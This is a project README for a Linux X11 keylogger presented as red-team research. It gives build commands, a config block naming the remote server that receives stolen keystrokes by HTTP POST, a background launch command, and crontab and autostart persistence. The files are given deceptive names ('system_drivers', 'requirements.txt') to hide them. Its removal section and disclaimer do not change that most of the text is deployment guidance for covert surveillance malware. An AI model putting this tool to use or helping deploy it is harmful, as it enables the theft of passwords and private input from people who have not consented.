

# Linux X11 Keystroke Logger & Exfiltration

Proof-of-concept security research tool for Linux systems running the X11 windowing system. Demonstrates user-space input tracking, active window logging, persistence hooks, and periodic HTTP POST exfiltration.

> **Disclaimer**: This project is developed strictly for educational purposes, authorized security auditing, and red-team research. Unauthorized deployment or monitoring on systems without explicit prior consent is illegal.

## Architecture



## Features

- **X11 Window Context Tracking:** Intercepts active window focus via `XGetInputFocus` and `XFetchName` to log application titles alongside captured keystrokes.
- **Keycode Translation:** Queries keyboard state using `XQueryKeymap` and maps keysyms to human-readable strings via `XKeysymToString`.
- **Persistence Hooks:**
  - XDG Autostart: Writes `~/.config/autostart/system_drivers.desktop`.
  - Crontab: Appends a `@reboot` entry to the current user's crontab.
- **Local Buffer:** Temporarily stores captured keystrokes in `~/Documents/requirements.txt`.
- **HTTP Exfiltration:** Sends periodic multipart HTTP POST payloads to a remote server using `libcurl`.
- **Server Telemetry Receiver:** Minimal PHP script (`receiver.php`) that logs client IP, username, timestamp, and payload into organized log files.

## Project Structure

```text
keylogger-linux/
├── main.c           # Core C client (X11 event loop, persistence, libcurl)
├── keylogger.sh     # Build and background execution script
├── receiver.php     # Server-side reception endpoint
└── README.md        # Documentation
```

## Requirements

### Client
- Linux running X11 (X.Org)
- GCC compiler
- `libX11` development headers
- `libcurl` development headers

Debian / Ubuntu:
```bash
sudo apt update && sudo apt install -y build-essential libx11-dev libcurl4-openssl-dev
```

Arch Linux:
```bash
sudo pacman -S --needed gcc make libx11 curl
```

### Server
- PHP 7.4+
- Any web server (Apache, Nginx, Caddy)

## Setup and Deployment

### 1. Server Configuration
Upload `receiver.php` to your web server document root and ensure write permissions for the `logs/` directory:
```bash
mkdir -p logs
chmod 775 logs
```

### 2. Client Configuration
Edit the target server address in `main.c`:
```c
#define SERVER "your-domain.com"     // Server domain or IP without http://
#define SCRIPT_PATH "/receiver.php"  // Endpoint path
#define UPLOAD_INTERVAL 300          // Interval in seconds
```

### 3. Compilation & Run

Automated:
```bash
chmod +x keylogger.sh
./keylogger.sh
```

Manual:
```bash
gcc -o system_drivers main.c -lcurl -lX11 -Wall -Wno-stringop-truncation -Wno-format-truncation
nohup ./system_drivers >/dev/null 2>&1 &
```

## Remediation & Removal

To terminate the process and purge all artifacts:

```bash
# 1. Stop background process
pkill -f system_drivers

# 2. Remove desktop autostart entry
rm -f ~/.config/autostart/system_drivers.desktop

# 3. Clean crontab entry
crontab -l | grep -v 'system_drivers' | crontab -

# 4. Remove binary and local log buffer
rm -f ~/system_drivers ~/Documents/requirements.txt
```

## License

MIT
